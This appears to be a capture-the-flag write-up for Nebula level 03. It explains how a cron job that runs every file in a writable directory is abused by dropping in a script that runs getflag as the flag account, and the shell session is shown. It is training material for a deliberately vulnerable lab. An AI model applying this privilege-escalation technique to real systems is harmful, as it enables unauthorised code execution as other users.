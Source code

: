 ```yaml
---
layout: default
title: "Nebula03"
tags: Nebula
description: "Exploiting command injection in the CRON job script"
---
```



## Level 03

> Check the home directory of flag03 and take note of the files there. There is a crontab that is called every couple of minutes. To do this level, log in as the `level03` account with the password `level03`. Files for this level can be found in `/home/flag03`.

## Source code
There is no source code available on the site, but we will work with the script `/home/flag03/writable.sh`

```
level03@nebula:/home/flag03$ cat writable.sh 
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done

```

## Getting the flag

From the task, we know that to get this flag we have to exploit the CRON job.  
By auditing the code of the script we can identify that everything in the `writable.d` directory will be read and executed by `bash`.  
Those challenges are more fun when the CRON job is executed by `root`, but we don't really need it to read the flag: 

```
level03@nebula:/tmp$ cd /home/flag03/writable.d/
level03@nebula:/home/flag03/writable.d$ echo "getflag > /tmp/flag" > flag
level03@nebula:/home/flag03/writable.d$ ls
flag
level03@nebula:/home/flag03/writable.d$ ls
level03@nebula:/home/flag03/writable.d$ cd /tmp
level03@nebula:/tmp$ ls
flag 
level03@nebula:/tmp$ cat flag 
You have successfully executed getflag on a target account
```

So what happened there? We created a file `flag` in the `writable.d` folder. The `writable.sh` was triggered by the CRON job in ~1 minute, and the `bash -x "getflag > /tmp/flag"` was executed, and our valid flag has been copied to the `/tmp/flag`
